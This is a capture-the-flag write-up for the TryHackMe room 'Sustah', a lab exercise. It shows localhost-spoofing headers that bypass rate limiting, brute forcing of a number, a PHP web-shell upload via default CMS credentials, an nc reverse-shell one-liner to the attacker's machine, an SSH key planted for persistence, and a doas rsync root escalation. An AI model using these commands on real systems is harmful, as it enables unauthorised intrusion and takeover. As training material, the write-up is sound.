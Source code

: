 # Sustah

https://tryhackme.com/room/sustah

"The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?"

An easy-ish room (solved it in under an hour, which is good for me), with some new tricks I haven't used before.

1. NMap revealed 22, 80 and 8085. Both 80 and 8085 looked like single page websites, with nothing on 80
2. 8085 hosted a 'Spinner' site, where you had to guess a number. Throwing this into burp intruder quickly ran into a strict ratelimit. The hint for this was 'what headers can you add?'
3. Researching bypassing ratelimiting, I tried a bunch of things. Eventually adding the following headers and header values got me through:

  ```
  X-Originating-IP: 127.0.0.1
  X-Forwarded-For: 127.0.0.1
  X-Remote-IP: 127.0.0.1
  X-Remote-Addr: 127.0.0.1
  X-Client-IP: 127.0.0.1
  X-Host: 127.0.0.1
  X-Forwared-Host: 127.0.0.1
  ```
  
  This was from https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass. Later, looking at the spinner code, it was specifically set to bypass limiting for `X-Remote-Addr` with that localhost value.
  
4. Now I was able to brute force the number, using Intruder to attack with 500 threads and all numbers from 10000 to 99999 (as the answer field showed five digits). Getting the right number revealed a hidden path under the 80 site.

5. On this site was a CMS (won't say the type as its a spoiler). I was able to find credentials on one of its pages on the site-map, which turned out to be publically documented default credentials. There was also a known exploit, where if you have creds for an admin user (as the default user is) you can access a file upload screen that doesn't do any vetting. 

6. Uploading a PHP web shell, I connected back to my attack machine with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.7.78 4444 >/tmp/f`

7. On the machine, www-data had no access to find and there wasn't anything obvious. The question hint, however, said something about interesting backups. Checking /var/backups, I found a hidden file called `.bak.passwd`, which contained the password for `kiran`, the only user with a home folder.

8. As kiran I got the user flag, then added my ssh pub key to a new authorized_keys entry under a new .ssh folder (chmod 700 on the .ssh folder, and 600 on authorized keys, I always need to look this up). Afterwards I could ssh in easily.

9. Basic enumeration got me nowhere. The question hint was 'you dont always need sudo', but it wans't until I ran linpeas that I figured out what this alluded to: there is a quasi-alternative to sudo called `doas`. Specifically, here kiran was able to run `rsync as root` via doas.

10. The final privesc was `doas -u root rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null` which got me a root shell and the final flag.
